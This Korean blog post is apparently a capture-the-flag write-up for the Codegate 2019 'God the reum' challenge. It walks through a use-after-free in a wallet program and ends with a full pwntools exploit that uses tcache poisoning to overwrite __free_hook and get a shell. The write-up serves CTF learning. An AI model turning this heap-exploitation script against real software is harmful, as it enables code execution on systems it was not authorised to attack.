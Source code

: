 ```yaml
---
layout: post
cover: 'assets/images/cover8.jpg'
navigation: true
title: 'Codegate2019 - God the reum'
date: 2019-03-09
tags: pwnable codegate writeup
subclass: 'post'
logo: 'assets/images/ghost.png'
author: lanphere
categories: lanphere
disqus: true
---
```


```
[*] '/mnt/hgfs/Shared/god-the-reum'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

보호 기법은 다 걸려 있고 주어진 Libc는 2.27이다.

문제에서 쓰이는 구조체는 아래와 같이 생겼다.

```
struct wallet {
  void *addr;
  void *size;
}
```

아래는 메뉴 화면이다.

```
====== Ethereum wallet service ========
1. Create new wallet
2. Deposit eth
3. Withdraw eth
4. Show all wallets
5. exit
select your choice : 
```

1번 메뉴는 말 그대로 지갑을 만드는 메뉴, 즉 malloc()이다. addr 포인터는 `malloc(0x82)`로 할당하고, 지갑을 만들 때의 초기 금액을 입력을 받는다.
재밌는 것은 입력받은 금액이 malloc의 인자면서 동시에 할당된 메모리에 쓰는 값이다. 다시 말해

```
printf("how much initial eth? : ", 0LL);
__isoc99_scanf("%llu", &size);
wallet_addr->size = malloc(size);
if ( wallet_addr->size )
  *wallet_addr->size = size;
```

이렇게 되어 있기 때문에 임의 사이즈의 chunk를 할당할 수 있다.

2번, 3번 메뉴는 정수 값을 입력받아 지갑에 있는 돈에 더하고 빼는 것이라 크게 특별한 부분은 없지만 3번 메뉴에서 출금하고 난 후의 잔액이 0원이면 할당했던 size포인터를 free시킨다. 하지만 free하고 나서 포인터를 초기화하지 않기 때문에 UAF취약점이 존재하며, 해당 포인터에 모든 메뉴에서 접근 가능하다.

```
void __cdecl Withdraw_eth(wallet *a1)
{
  __int64 v1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("how much you wanna withdraw? : ");
  __isoc99_scanf("%llu", &v1);
  *a1->size -= v1;
  if ( !*a1->size )
    free(a1->size);
  puts("withdraw ok !\n");
}
```

또 숨겨진 메뉴로 developer라는 메뉴가 있다.
```
void __cdecl developer(wallet *a1)
{
  dummy();
  puts("this menu is only for developer");
  puts("if you are not developer, please get out");
  sleep(1u);
  printf("new eth : ");
  __isoc99_scanf("%10s", a1->size);
}
```

사실 deposit메뉴로도 데이터를 쓸 수 있지만 편하게 익스하라고 만들어둔 메뉴가 아닐까 싶다. depoist은 정수형으로 입력받고 쓰지만
이 메뉴는 문자열로 받는다.

그래서 시나리오는

1. 적당히 큰 chunk를 할당 후 해제(libc leak)
2. tcache에 들어갈 정도의 chunk 할당 후 해제
3. fd pointer overwrite를 해서 이후 malloc에서 __free_hook을 할당 받음
4. __free_hook에 one_gadget의 주소를 overwrite
5. free 호출

```
from pwn import *


def sla(x, y): return p.sendlineafter(x, y)


def ru(x): return p.recvuntil(x)


def create(size):
    sla('choice : ', str(1))
    sla('eth? : ', str(size))


def deposit(idx, amount):
    sla('choice : ', str(2))
    sla('no : ', str(idx))
    sla('deposit? : ', str(amount))


def withdraw(idx, amount):
    sla('choice : ', str(3))
    sla('no : ', str(idx))
    sla('withdraw? : ', str(amount))


def show():
    sla('choice : ', str(4))


def developer(idx, data):
    sla('choice : ', str(6))
    sla('no : ', str(idx))
    sla('new eth : ', data)


p = process('./god-the-reum', env={'LD_PRELOAD': './libc-2.27.so'})
bin = ELF('./god-the-reum')
libc = ELF('./libc-2.27.so')

free_hook_offset = 0x3ed8e8
one_gadget_offset = 0x4f322  # 0x4f2c5 0x4f322 0x10a38c

# gdb.attach(p, '')

# libc leak
create(0x1000)  # 1
create(0x10)    # 2
withdraw(0, 0x1000)
show()
ru('ballance ')
libc_addr = int(ru('\n')[:-1]) - 0x3ebca0
log.info('Libc Addr: ' + hex(libc_addr))

# tcache
withdraw(1, 0x10)
developer(1, p64(libc_addr + free_hook_offset))
create(0x10)    # 3
create(0x10)    # 4
developer(3, p64(libc_addr + one_gadget_offset))
withdraw(2, 0x10)

p.interactive()
```

